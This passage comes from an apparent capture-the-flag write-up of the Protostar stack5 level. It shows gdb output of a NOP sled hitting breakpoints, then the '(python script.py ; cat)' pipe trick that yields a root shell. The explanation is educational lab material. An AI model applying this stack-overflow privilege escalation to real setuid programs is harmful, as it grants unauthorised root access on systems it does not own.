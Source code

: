 ``` shell
11      in stack5/stack5.c
(gdb) si
Cannot access memory at address 0x53535357
(gdb)
0xbffff7e1:     nop
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7e1 in ?? ()
.....
(gdb)
0xbffff814:     int3
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff814 in ?? ()
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff816:     int3
0xbffff7b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff816 in ?? ()
.....
(gdb) c
Continuing.
Executing new program: /bin/dash
```

Nice~ Our script looks good. I will remove the breakpoint trap **int3** and run the script to solve the level.

``` shell
user@protostar:~$ python script.py | /opt/protostar/bin/stack5
user@protostar:~$
```

Hmm... What's wrong!? Why we didn't we get the root shell? 

This is because the shell we are executing wants some inputs, right? But since we redirected the script’s stdout into the program’s stdin. When the program was done, it closed the pipe. So now the shell is executed, but doesn't have any input, because it closed. So it will just exit. 

The trick to get around with this is using **cat**. This works because **cat** keeps the input stream open, preventing the shell from exiting.

``` shell
user@protostar:~$ (python script.py ; cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

## Stack 6
